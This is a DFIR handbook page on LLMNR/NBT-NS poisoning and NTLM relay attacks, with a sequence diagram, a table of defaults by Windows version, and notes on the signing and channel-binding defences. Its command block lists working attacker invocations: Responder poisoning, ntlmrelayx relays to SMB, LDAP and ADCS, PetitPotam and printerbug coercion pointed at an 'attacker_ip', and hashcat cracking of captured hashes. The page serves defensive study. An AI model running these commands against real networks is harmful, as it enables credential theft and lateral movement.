

repository: DFIDwiz-sketch/dfir-handbook · page: adversary/llmnr-ntlm-relay/index.html · generator: mkdocs

---
title: LLMNR/NBT-NS Poisoning & NTLM Relay
tags:
  - technique
  - adversary
  - credential-access
  - lateral-movement
---

# LLMNR/NBT-NS Poisoning & NTLM Relay

<div class="dfir-meta" markdown>
**MITRE ATT&CK:** T1557.001 (Adversary-in-the-Middle: LLMNR/NBT-NS Poisoning and SMB Relay) · T1187 (Forced Authentication) · **Tactic:** Credential Access / Lateral Movement · **Last updated:** 2026-10-07
</div>

!!! abstract "Summary"
    When DNS cannot resolve a name, Windows falls back to **multicast/broadcast** name resolution — **LLMNR** (UDP 5355), **NBT-NS** (UDP 137) and **mDNS** (UDP 5353). Anyone on the same subnet can answer "that's me". The victim then authenticates to the attacker with **NTLM**, which the attacker either **captures** (NetNTLMv2 hash → offline cracking) or **relays** in real time to another server (SMB, LDAP, HTTP/ADCS) to act as the victim. **Coercion** bugs (PetitPotam, PrinterBug/SpoolSample, DFSCoerce) let the attacker *force* a server — even a DC — to authenticate on demand. This is one of the most common first steps on an internal network test, and it needs no credentials at all.

## How the attack works

```mermaid
sequenceDiagram
    participant V as Victim workstation
    participant A as Attacker (same subnet)
    participant T as Relay target (SMB / LDAP / ADCS HTTP)
    V->>V: DNS fails for "\\fileserv" (typo)
    V->>A: LLMNR/NBT-NS broadcast "who is fileserv?"
    A->>V: "I am" (poisoned answer)
    V->>A: SMB/HTTP connect, NTLM NEGOTIATE
    A->>T: forward NEGOTIATE
    T->>A: CHALLENGE
    A->>V: forward CHALLENGE
    V->>A: AUTHENTICATE (NetNTLMv2)
    A->>T: forward AUTHENTICATE → session as Victim
    Note over A: Or simply store NetNTLMv2<br/>and crack offline (hashcat -m 5600)
```

Relay only works when the **target does not require signing / channel binding** for that protocol. That is why SMB signing, LDAP signing + channel binding and EPA on HTTP are the core defences.

## Attacker tooling / commands

```text
# Poison + capture
Responder -I eth0 -wd                         # LLMNR / NBT-NS / mDNS / WPAD

# Relay instead of capture (Responder SMB/HTTP servers off)
ntlmrelayx.py -tf targets.txt -smb2support    # relay to SMB hosts without signing
ntlmrelayx.py -t ldaps://dc01 --delegate-access   # RBCD via LDAP
ntlmrelayx.py -t http://ca01/certsrv/certfnsh.asp --adcs   # ESC8

# Coerce a server to authenticate to us
PetitPotam.py  attacker_ip  dc01             # MS-EFSRPC
printerbug.py  CORP/user@dc01 attacker_ip    # MS-RPRN (Print Spooler)

# Find relay targets
nxc smb 10.0.0.0/24 --gen-relay-list targets.txt   # hosts with signing not required

# Crack captured hash
hashcat -m 5600 netntlmv2.txt wordlist.txt
```

## Affected Windows versions

| Version | LLMNR | NBT-NS | SMB signing required by default | NTLMv1 |
|---|---|---|---|---|
| **XP / 2003** | Not present | **On** | DCs only | Allowed (LM/NTLMv1 used by default on XP) |
| **Vista / 2008 → 10 / 2022** | **On** | **On** | DCs only | Allowed unless `LmCompatibilityLevel=5` |
| **11 24H2 / Server 2025** | On (can be disabled) | On | **Required for all outbound and inbound SMB** by default | **Removed** |

Coercion: **PetitPotam** (CVE-2021-36942) affected Server 2008 → 2022 and was only partly fixed — the unauthenticated path was patched, authenticated coercion still works. **PrinterBug** is a *design* feature of the Print Spooler on every version that runs the service.
